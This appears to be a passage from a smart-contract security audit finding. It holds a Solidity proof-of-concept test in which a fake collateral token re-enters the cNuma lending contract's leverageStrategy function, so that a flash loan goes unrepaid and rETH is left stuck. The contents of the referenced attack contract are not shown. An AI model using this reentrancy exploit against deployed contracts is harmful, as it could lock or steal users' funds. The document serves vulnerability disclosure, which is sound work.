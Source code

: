 ```solidity

        uint256 vaultRethBefore = rEth.balanceOf(address(cNuma.vault()));
        uint reth_in_cNuma = rEth.balanceOf(address(cNuma));

        rEth.approve(address(cNuma), providedAmount);

        // Setting up fake collateral token (which interacts with rETH)
        FakeCollateral fake_cReth = new FakeCollateral(address(cReth), address(rEth), userA, comptroller);

        // Sending it a tiny amount of cReth, so it can re-enter cNuma.leverageStrategy()
        cReth.transfer(address(fake_cReth), 5e10 / 2);

        // call strategy
        uint256 borrowAmount = 1e24;

        uint strategyindex = 0;
        cNuma.leverageStrategy(
            providedAmount,
            borrowAmount,
            CNumaToken(address(fake_cReth)),
            strategyindex
        );

        // check balances
        // cnuma position
        uint256 vaultRethAfter = rEth.balanceOf(address(cNuma.vault()));
        uint reth_in_cNuma_After = rEth.balanceOf(address(cNuma));
        
        // Shows that the rETH balance of the cNuma token contract has gone up by `borrowAmount` (since flash loan was not repaid)
        console.log("cNUMA rETH balance: %e->%e (stuck funds)", reth_in_cNuma, reth_in_cNuma_After);
        assertEq(reth_in_cNuma_After - reth_in_cNuma, borrowAmount);
    }
```

Also add the following attack contract to a new file `FakeCollateral.sol` in the same directory as `Lending.t.sol`
<details><summary>Attack contract</summary></details>

### Mitigation

_No response_

---
